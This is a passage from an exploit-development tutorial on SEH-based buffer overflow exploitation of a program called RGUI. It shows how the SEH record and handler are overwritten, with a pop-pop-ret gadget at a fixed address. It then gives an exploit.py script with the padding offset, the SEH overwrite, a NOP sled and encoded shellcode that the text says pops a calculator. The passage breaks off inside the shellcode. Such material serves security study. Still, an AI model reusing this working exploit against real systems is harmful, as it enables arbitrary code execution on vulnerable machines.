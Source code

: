 1. The next SEH record will contain the bytes `42 4F 4F 4D`, representing the string `BOOM`;
2. The current SEH handler will point to `0x637412c8` that contains `pop pop ret` instructions.

Below shows the `payload.txt` file contents:

![Payload.txt contents](<../../../.gitbook/assets/image (1008).png>)

Let's send that payload to the RGUI:

![Confirming we can subvert program's execution flow by overwriting SEH record](<../../../.gitbook/assets/overwriting-seh-record-1 (1).gif>)

Note from the above gif the key points:

* Once the program crashes with an exception and we continue running the program (F9), we hit our breakpoint at `0x637412c8` that contains the `pop pop ret` instructions;
* Once `pop pop` instructions are executed, `ret` instruction pops off the top topmost value`0141E768` from the stack, which is the SEH record we control, and jumps to it;
* Once execution jumps to `0141E768`, we see that first four instructions are actually are the bytes `42 4f 4f 4d` that represent our string `BOOM`, which means that at this point we have subverted the code execution flow and can start thinking about executing our shellcode.

### Adding Shellcode

We're now ready to start suplementing our payload with shellcode. Our payload should now look like this:

![](<../../../.gitbook/assets/image (1022).png>)

Let's modify our exploit skeleton to include some shellcode that pops a calculator:

{% code title="exploit.py" %}
```python
f = open("payload.txt", "wb")

# Offset into the first SEH record
payload = b"A" * 1012

# Address of the next SEH record
payload += b"BOOM"
# payload += b"\xeb\x0B\x90\x90"

# Current SEH handler (pop pop ret)
payload += b"\xc8\x12\x94\x63"

# NOP sled for reliability
payload += b"\x90"*10

# shellcode
buf = b""
buf += b"\xba\xbf\xaf\x65\x1b\xd9\xc4\xd9\x74\x24\xf4\x5d\x31"
buf += b"\xc9\xb1\x31\x31\x55\x13\x83\xed\xfc\x03\x55\xb0\x4d"
buf += b"\x90\xe7\x26\x13\x5b\x18\xb6\x74\xd5\xfd\x87\xb4\x81"
buf += b"\x76\xb7\x04\xc1\xdb\x3b\xee\x87\xcf\xc8\x82\x0f\xff"
buf += b"\x79\x28\x76\xce\x7a\x01\x4a\x51\xf8\x58\x9f\xb1\xc1"
buf += b"\x92\xd2\xb0\x06\xce\x1f\xe0\xdf\x84\xb2\x15\x54\xd0"
buf += b"\x0e\x9d\x26\xf4\x16\x42\xfe\xf7\x37\xd5\x75\xae\x97"
buf += b"\xd7\x5a\xda\x91\xcf\xbf\xe7\x68\x7b\x0b\x93\x6a\xad"
buf += b"\x42\x5c\xc0\x90\x6b\xaf\x18\xd4\x4b\x50\x6f\x2c\xa8"
buf += b"\xed\x68\xeb\xd3\x29\xfc\xe8\x73\xb9\xa6\xd4\x82\x6e"
buf += b"\x30\x9e\x88\xdb\x36\xf8\x8c\xda\x9b\x72\xa8\x57\x1a"
buf += b"\x55\x39\x23\x39\x71\x62\xf7\x20\x20\xce\x56\x5c\x32"
buf += b"\xb1\x07\xf8\x38\x5f\x53\x71\x63\x35\xa2\x07\x19\x7b"
buf += b"\xa4\x17\x22\x2b\xcd\x26\xa9\xa4\x8a\xb6\x78\x81\x65"
buf += b"\xfd\x21\xa3\xed\x58\xb0\xf6\x73\x5b\x6e\x34\x8a\xd8"
buf += b"\x9b\xc4\x69\xc0\xe9\xc1\x36\x46\x01\xbb\x27\x23\x25"
buf += b"\x68\x47\x66\x46\xef\xdb\xea\xa7\x8a\x5b\x88\xb7"
```